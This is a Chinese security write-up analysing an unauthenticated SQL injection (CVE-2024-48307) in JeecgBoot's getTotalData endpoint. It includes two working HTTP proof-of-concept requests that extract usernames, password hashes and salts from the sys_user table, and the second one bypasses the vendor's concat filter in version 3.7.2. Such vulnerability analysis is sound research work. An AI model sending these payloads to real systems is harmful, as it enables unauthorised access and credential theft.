# JeecgBoot SQL注入漏洞分析(CVE-2024-48307)-先知社区

> **来源**: https://xz.aliyun.com/news/16490  
> **文章ID**: 16490

---

# 一、漏洞简介

JeecgBoot是一个Java 低代码平台。JeecgBoot v3.7.1版本存在安全漏洞，该漏洞源于通过组件/onlDragDatasetHead/getTotalData 发现包含 SQL 注入漏洞。

# 二、影响版本

org.jeecgframework.boot:jeecg-boot-parent<3.7.1

# 三、漏洞分析

存在漏洞的路由为：/jeecg-boot/drag/onlDragDatasetHead/getTotalData，找到对应的文件。

  
先查看shiro配置，JeecgBoot-3.7.1\jeecg-boot\jeecg-boot-base-core\src\main\java\org\jeecg\config\shiro\ShiroConfig.java。

  
此接口无需授权，查看该路由对应的文件：jimureport-dashboard-spring-boot-starter-1.8.1-beta.jar!\org\jeecg\modules\drag\b\f.class

  
让compName不等于"JPivotTable",进入this.onlDragDatasetHeadService.getTotalData(var3, var4, var5, var6, var9),var3，var4,var5,var6均从请求中获取，var9为身份校验后的结果，此漏洞无需验证身份。

  
跟进后进入org.jeecg.modules.drag.service.a.d#getTotalData，让请求头中的config.formtype不等于design。

  
进入org.jeecg.modules.drag.service.a.i，在handleOnlineForm中，var7为关键，其中包含需要查询的字段。

  
此时分析this.onlDragDatasourceDao.selectListBySql发现，这里用了FreeMarker 模板来生成sql查询语句，并将查询结果返回给var8,此时已经根据用户输入的参数进行查询。

```
SELECT
<#if queryFields.valueFields ?? && (queryFields.valueFields ?size gt 0)>
   <#list queryFields.valueFields as field>
    <#if field_has_next>
    ${field.formula}(${field.statisticaField}) ${field.alias},
    <#else>
    ${field.formula}(${field.statisticaField}) ${field.alias},
    ${field.formula}(${field.statisticaField}) as value
        <#if (queryFields.nameField ?? && queryFields.nameField ?length gt 0)>
            ,
        </#if>
    </#if>
   </#list>
</#if>
<#if queryFields.typeField ?? && queryFields.typeField ?length gt 0>
    ${queryFields.typeField},
</#if>
<#if queryFields.nameField ?? && queryFields.nameField ?length gt 0>
    ${queryFields.nameField},
    ${queryFields.nameField} as name
</#if>
FROM
     ${tableName}
<#if timeCondition ?? && (timeCondition ?size gt 0)>
WHERE
     ${timeCondition.timeField} between '${timeCondition.timeBegin}' and '${(timeCondition.timeEnd)}'
</#if>

<#include "OnlDragDataSourceDao_selectCondition.sql">

<#if (queryFields.typeField ?? && queryFields.typeField ?length gt 0) || (queryFields.nameField ?? && queryFields.nameField ?length gt 0)>
GROUP BY
</#if>
<#if queryFields.typeField ?? && queryFields.typeField ?length gt 0>
     ${queryFields.typeField},
</#if>
<#if queryFields.nameField ?? && queryFields.nameField ?length gt 0>
    ${queryFields.nameField}
</#if>
<#if queryFields.sorts ?? && queryFields.sorts.type ?? && queryFields.sorts.type ?length gt 0>
ORDER BY
    ${queryFields.sorts.field} ${queryFields.sorts.type}
</#if>

```

此时已经完成sql查询，调用栈：



# 四、漏洞利用

根据官方文档进行环境搭建，只进行漏洞复现可不搭建前端环境。  
<https://help.jeecg.com/java/setup/idea/startup.html>

  
poc：

```
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: 127.0.0.1:12345
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 326
Content-Type: application/json

{"tableName": "sys_user", "compName": "test", "condition": {"filter": {}}, "config": {"assistValue": [], "assistType": [], "name": [{"fieldName": "concat(username,0x3a,password,0x3a,salt)", "fieldType": "string"}, {"fieldName": "id", "fieldType": "string"}], "value": [{"fieldName": "id", "fieldType": "string"}], "type": []}}
```

# 五、漏洞修复

使用上面的poc在最新版3.7.2尝试，发现对concat字段进行了检测。

  
org.jeecg.modules.drag.service.a.j#handleOnlineForm 中的c.a()进行了检测。



这个方法通过反射调用检测方法，返回了异常。



# 六、绕过

因为是对concat进行了检测，根据FreeMarker 模板的语句，删除concat，重新构造poc。

```
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: 127.0.0.1:12346
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 308
Content-Type: application/json

{"tableName": "sys_user", "compName": "test", "condition": {"filter": {}}, "config": {"assistValue": [], "assistType": [], "name": [{"fieldName": "username,password,salt", "fieldType": "string"}, {"fieldName": "id", "fieldType": "string"}], "value": [{"fieldName": "id", "fieldType": "string"}], "type": []}}
```


